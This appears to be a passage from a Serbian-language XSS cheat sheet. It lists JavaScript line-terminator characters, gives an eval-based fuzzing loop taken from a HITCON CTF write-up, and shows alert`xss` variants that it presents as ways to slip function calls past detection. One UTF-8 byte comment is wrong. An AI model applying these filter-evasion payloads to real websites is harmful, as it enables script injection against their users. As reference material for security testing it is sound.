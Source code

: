 ### Validni JS karakteri za nove linije

U JavaScript-u postoje određeni karakteri koji se koriste za predstavljanje novih linija. Ovi karakteri omogućavaju programerima da formatiraju svoj kod tako da bude čitljiv i organizovan. Evo nekoliko validnih JS karaktera za nove linije:

- `\n` - predstavlja novu liniju
- `\r` - predstavlja povratak na početak linije
- `\r\n` - predstavlja kombinaciju povratka na početak linije i nove linije

Ovi karakteri se često koriste prilikom pisanja JavaScript koda kako bi se obezbedila jasnoća i preglednost.
```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8

for (let j = 0; j < 65536; j++) {
try {
var cmd = '"aaaaa";'+String.fromCharCode(j) + '-->a.orange.ctf"';
eval(cmd);
} catch(e) {
var err = e.toString().split('\n')[0].split(':')[0];
if (err === 'SyntaxError' || err === "ReferenceError")
continue;
err = e.toString().split('\n')[0]
}
console.log(`[${err}]`,j,cmd);
}
//From: https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z
```
### Validni JS razmaci u pozivu funkcije

Kada koristite JavaScript, možete koristiti razmake unutar poziva funkcije kako biste izbjegli detekciju neželjenog koda. Ovo je korisna tehnika za izvršavanje XSS napada. Evo nekoliko primjera kako možete koristiti razmake u pozivu funkcije:

```javascript
alert`xss`
```

```javascript
alert `xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/ `xss`
```

```javascript
alert /*xss*/ `xss`
```
